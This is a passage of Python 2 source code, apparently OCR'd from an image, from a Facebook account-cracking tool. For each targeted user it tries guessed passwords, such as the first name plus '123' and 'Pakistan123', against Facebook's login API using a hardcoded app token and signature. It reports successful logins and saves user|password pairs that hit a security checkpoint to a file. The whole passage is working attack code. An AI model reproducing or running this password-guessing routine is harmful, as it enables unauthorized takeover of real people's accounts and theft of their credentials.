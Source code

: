 									cek = open("out/checkpoint.txt", "a")

									cek.write(user+"|"+pass3+"\n")

									cek.close()

									cekpoint.append(user+pass3)

								else:

									pass4 = b['first_name'] + '123'

									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

									q = json.load(data)

									if 'access_token' in q:

										x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])

										z = json.loads(x.text)

										print '\x1b[1;32mSuccessful\x1b[1;32m \x1b[1;32m¦\x1b[1;32m ' + user + ' \x1b[1;32m¦\x1b[1;32m ' + pass4	

										oks.append(user+pass4)

									else:

										if 'www.facebook.com' in q["error_msg"]:

											print '\x1b[1;97mCheckpoint\x1b[1;97m \x1b[1;97m¦\x1b[1;97m ' + user + ' \x1b[1;97m¦\x1b[1;97m ' + pass4	

											cek = open("out/Checkpoint.txt", "a")

											cek.write(user+"|"+pass4+"\n")

											cek.close()

											cekpoint.append(user+pass4)

										else:

											pass5 = 'Pakistan123'

											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

											q = json.load(data)

											if 'access_token' in q:

												x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])

												z = json.loads(x.text)

												print '\x1b[1;32mSuccessful\x1b[1;32m \x1b[1;32m¦\x1b[1;32m ' + user + ' \x1b[1;32m¦\x1b[1;32m ' + pass5	

												oks.append(user+pass5)
